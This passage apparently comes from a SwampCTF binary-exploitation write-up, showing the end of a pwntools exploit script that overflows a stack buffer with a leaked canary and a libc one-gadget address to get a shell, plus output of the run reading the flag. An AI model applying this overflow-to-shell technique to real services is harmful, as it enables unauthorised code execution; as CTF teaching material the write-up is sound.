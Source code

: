 ```
    print r.recv()

    buf = ""
    buf += "A"*(small_offset - 16)          # junk
    buf += p64(canary)                      # stack canary
    buf += p64(0x646464646464)              # saved frame pointer
    buf += p64(one_gadget)                  # saved return pointer
    buf += "\x00"*(small_max - len(buf))    # more junk
    r.sendline(buf)
    r.interactive()

if __name__ == "__main__":
    global r
    r = remote("chal1.swampctf.com", 1337)

    level1()
    level2()
    level3()
    level4()
    level5()
```

And here it is in action:

```
# ./sploit.py
[+] Opening connection to chal1.swampctf.com on port 1337: Done
----- LEVEL 1 -----

Access token please:
Just a warmup. Level 1 complete.
----- LEVEL 2 -----
What is your party name?
Now we're cooking with gas. Lets ramp it up a bit.

----- LEVEL 3 -----
Just a simple question...what is your favorite spell?
Any overwrite is a bad overwrite! Level 3 complete.

----- LEVEL 4 -----
Choose an action:
Hey traveler, what is your name?
Running action 73...


leaked canary: 0x2a4cf8dc6617f900


leaked io_stdout: 0x7fbcb1320620
libc base: 0x7fbcb0f5b000
one-gadget-rce: 0x7fbcb0fa0216
Path 1 - Give yourself an extra challenge :)
[*] Switching to interactive mode

$ ls
flag
level1
level2
level3
level4
level5
$ cat flag
flag{I_SurV1v3d_th3_f1n4l_b0ss}
```
